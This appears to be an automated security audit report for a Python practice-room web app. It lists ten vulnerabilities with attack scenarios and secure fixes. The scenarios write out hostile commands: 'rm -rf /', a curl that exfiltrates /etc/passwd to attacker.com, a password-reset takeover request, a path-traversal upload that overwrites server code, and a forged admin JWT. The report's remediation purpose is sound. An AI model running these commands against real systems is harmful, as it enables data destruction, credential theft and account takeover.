

# Security Codebase Review Report

**Generated:** 2026-02-05T11:41:13+05:30  
**Application:** Python Practice Room  
**Reviewer:** Automated Security Audit

---

## Executive Summary

This security audit identified **10 vulnerabilities** across the codebase, including **2 Critical**, **4 High**, **3 Medium**, and **1 Low** severity issues. The most severe findings allow **Remote Code Execution (RCE)** and **Account Takeover** without authentication.

| Severity | Count | Key Issues |
|----------|-------|------------|
| 🔴 Critical | 2 | RCE via code execution, Insecure password reset |
| 🟠 High | 4 | Path traversal, Hardcoded credentials, Privilege escalation, Secret key |
| 🟡 Medium | 3 | CORS wildcard, Static file exposure, Role in signup schema |
| 🟢 Low | 1 | Debug logging exposure |

---

## Critical Findings

### 1. 🔴 CRITICAL: Remote Code Execution (RCE) via Code Execution Service

**Risk Level:** Critical  
**File:** [execution_service.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/services/execution_service.py)  
**Lines:** 140-148, 243-250

**Attack Scenario:**
1. Attacker registers an account or compromises any user account
2. Attacker submits malicious code via `/api/execute/run`:
```python
import os
os.system("rm -rf /")  # Delete server files
# OR
import subprocess
subprocess.call(["curl", "http://attacker.com/exfil", "-d", "@/etc/passwd"])  # Exfiltrate data
```
3. Code executes directly on the host server via `subprocess.run([sys.executable, "main.py"], ...)` (line 140)
4. Full server compromise achieved

**Impact:**
- Complete server takeover
- Data exfiltration (database, source code, credentials)
- Lateral movement to other systems
- Denial of service

**Solution:**
```python
# Replace direct subprocess execution with Docker container:
import docker
client = docker.from_env()
container = client.containers.run(
    "practice-room-runner:latest",
    command=["python", "main.py"],
    volumes={str(work_dir): {'bind': '/workspace', 'mode': 'ro'}},
    working_dir="/workspace",
    mem_limit="128m",
    cpu_period=100000,
    cpu_quota=50000,
    network_disabled=True,
    user="nobody",
    read_only=True,
    detach=True
)
```

---

### 2. 🔴 CRITICAL: Insecure Password Reset - Account Takeover

**Risk Level:** Critical  
**Files:** 
- [auth.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/routers/auth.py#L78-L86)
- [auth_service.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/services/auth_service.py#L60-L71)

**Attack Scenario:**
1. Attacker knows victim's username (e.g., "admin" - commonly guessable)
2. Attacker guesses or finds victim's email (OSINT, social engineering, or enumeration)
3. Attacker calls:
```bash
curl -X POST "http://target/api/v1/auth/reset-password" \
  -H "Content-Type: application/json" \
  -d '{"username":"admin", "email":"admin@example.com", "new_password":"hacked123"}'
```
4. **No email verification required** - password is immediately changed
5. Attacker logs in as admin with full privileges

**Impact:**
- Complete account takeover of any user
- Admin account compromise leads to full application control
- Access to all user data and progress

**Solution:**
```python
# Implement secure password reset flow:
def initiate_password_reset(email: str) -> bool:
    user = get_user_by_email(email)
    if not user:
        return True  # Don't leak user existence
    
    # Generate secure token
    reset_token = secrets.token_urlsafe(32)
    expiry = datetime.utcnow() + timedelta(hours=1)
    
    # Store token hash in DB
    store_reset_token(user.id, hash_token(reset_token), expiry)
    
    # Send email with reset link
    send_reset_email(user.email, reset_token)
    return True

def complete_password_reset(token: str, new_password: str) -> bool:
    # Validate token, check expiry, then update password
    # Invalidate token after use
```

---

## High Severity Findings

### 3. 🟠 HIGH: Path Traversal in Admin File Upload

**Risk Level:** High  
**File:** [admin.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/routers/admin.py#L167-L171)  
**Line:** 170

**Attack Scenario:**
1. Attacker compromises admin account (via Finding #2)
2. Attacker uploads file with malicious filename:
```bash
curl -X PUT "http://target/api/v1/admin/questions/q1" \
  -F "data_files=@evil.py;filename=../../../app/main.py"
```
3. `file.filename` is used directly without sanitization on line 170
4. Backend code overwritten, achieving persistent backdoor

**Impact:**
- Arbitrary file write anywhere on server
- Application code injection
- Persistent backdoor

**Solution:**
```python
# Line 170 - Add sanitization (like create_question does):
if file.filename:
    safe_filename = os.path.basename(file.filename)  # ADD THIS
    with open(folder_path / safe_filename, "wb") as buffer:
        shutil.copyfileobj(file.file, buffer)
```

---

### 4. 🟠 HIGH: Hardcoded Default Credentials

**Risk Level:** High  
**File:** [config.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/core/config.py#L24-L26)

**Attack Scenario:**
1. Attacker tries default credentials: `admin/admin`, `learner/learner`
2. Successful login to admin panel

**Current Code:**
```python
DEFAULT_ADMIN_USERNAME: str = os.getenv("DEFAULT_ADMIN_USERNAME", "admin")
DEFAULT_ADMIN_PASSWORD: str = os.getenv("DEFAULT_ADMIN_PASSWORD", "admin")  # INSECURE
```

**Impact:**
- Immediate admin access in default deployments
- Combined with Finding #1, leads to full server compromise

**Solution:**
```python
# Force secure defaults:
DEFAULT_ADMIN_PASSWORD: str = os.getenv("DEFAULT_ADMIN_PASSWORD")
if not DEFAULT_ADMIN_PASSWORD:
    raise ValueError("DEFAULT_ADMIN_PASSWORD environment variable is required")
```

---

### 5. 🟠 HIGH: Weak Secret Key

**Risk Level:** High  
**File:** [config.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/core/config.py#L19)

**Attack Scenario:**
1. Attacker knows default key: `supersecretkeyforlocalpracticeroom`
2. Attacker forges JWT tokens for any user including admin:
```python
import jwt
payload = {"sub": "admin", "role": "admin", "exp": 9999999999}
token = jwt.encode(payload, "supersecretkeyforlocalpracticeroom", algorithm="HS256")
```
3. Full admin access without password

**Solution:**
```python
SECRET_KEY: str = os.getenv("SECRET_KEY")
if not SECRET_KEY or len(SECRET_KEY) < 32:
    raise ValueError("SECRET_KEY must be set and at least 32 characters")
```

---

### 6. 🟠 HIGH: Privilege Escalation via Role Field in UserCreate Schema

**Risk Level:** High  
**File:** [models.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/models.py#L67-L71)

**Attack Scenario:**
1. Attacker inspects API and finds `role` field in UserCreate schema
2. Attacker sends signup request with role override:
```bash
curl -X POST "http://target/api/v1/auth/signup" \
  -H "Content-Type: application/json" \
  -d '{"username":"attacker", "email":"attacker@evil.com", "password":"test", "role":"admin"}'
```
3. While `create_user()` currently ignores this (line 53 in auth_service.py), the schema accepts it
4. Future refactoring could accidentally respect the field, creating admins

**Impact:**
- Current: Potential confusion, API accepts invalid data
- Future risk: Privilege escalation if schema is trusted

**Solution:**
```python
# Remove role from UserCreate entirely:
class UserCreate(BaseModel):
    username: str
    password: str
    email: str
    # role field REMOVED - never accept from client
```

---

## Medium Severity Findings

### 7. 🟡 MEDIUM: CORS Wildcard Allows Any Origin

**Risk Level:** Medium  
**File:** [config.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/core/config.py#L29)

**Attack Scenario:**
1. Attacker hosts malicious page at `evil-site.com`
2. Victim visits page while logged into practice room
3. JavaScript executes API requests as victim (credentials included)
4. Attacker extracts user data, changes passwords

**Solution:**
```python
CORS_ORIGINS: str = os.getenv("CORS_ORIGINS", "http://localhost:5173")  # Explicit default
```

---

### 8. 🟡 MEDIUM: Static File Serving Exposes User Code Runs

**Risk Level:** Medium  
**File:** [main.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/main.py#L43)

**Attack Scenario:**
1. Attacker guesses or brute-forces run UUIDs
2. Access other users' submitted code: `GET /api/runs/{uuid}/user_code.py`
3. Extract solutions, proprietary code, or sensitive data in code comments

**Solution:**
```python
# Add authentication middleware or remove static mount:
# Option 1: Remove public access
# app.mount("/api/runs", StaticFiles(...))  # REMOVE

# Option 2: Serve through authenticated endpoint
@router.get("/runs/{run_id}/{filename}")
def get_run_file(run_id: str, filename: str, user = Depends(get_current_active_user)):
    # Verify user owns this run_id before serving
```

---

### 9. 🟡 MEDIUM: Password Reset Allows User Enumeration

**Risk Level:** Medium  
**File:** [auth.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/routers/auth.py#L82-L84)

**Attack Scenario:**
1. Attacker tries combinations of username/email
2. Error message "Invalid username or email" confirms when match is found vs not
3. Attacker builds list of valid accounts

**Solution:**
```python
# Always return generic success message:
return {"message": "If an account with those details exists, password has been updated"}
```

---

## Low Severity Findings

### 10. 🟢 LOW: Debug Logging Exposes Usernames

**Risk Level:** Low  
**File:** [modules.py](file:///c:/Users/Mochitha%20vijayan/Client_Server_Practice_Rooms%20-%204/practice_room/backend/app/routers/modules.py#L19)

**Attack Scenario:**
1. Attacker gains access to server logs
2. Extracts usernames from debug messages

**Solution:**
```python
# Remove or redact debug prints:
# print(f"DEBUG: Entering read_modules for user {current_user.username}")  # REMOVE
```

---

## Attack Chain Analysis

### Complete Server Compromise (Chaining Findings 1, 2, 4, 5)



---

## Remediation Priority

| Priority | Finding | Effort | Impact |
|----------|---------|--------|--------|
| 1 | RCE (Finding #1) | High | Critical |
| 2 | Password Reset (Finding #2) | Medium | Critical |
| 3 | Hardcoded Credentials (Finding #4) | Low | High |
| 4 | Weak Secret Key (Finding #5) | Low | High |
| 5 | Path Traversal (Finding #3) | Low | High |
| 6 | Role in Schema (Finding #6) | Low | High |
| 7 | CORS (Finding #7) | Low | Medium |
| 8 | Static Files (Finding #8) | Medium | Medium |
| 9 | Enumeration (Finding #9) | Low | Medium |
| 10 | Debug Logging (Finding #10) | Low | Low |

---

## Appendix: Files Reviewed

| Component | Files |
|-----------|-------|
| **Authentication** | auth.py, auth_service.py |
| **Authorization** | admin.py, modules.py, questions.py |
| **Code Execution** | execute.py, execution_service.py |
| **Configuration** | config.py, database.py, main.py |
| **Models** | models.py |
| **Frontend** | AuthContext.jsx, ForgotPassword.jsx, Signup.jsx |
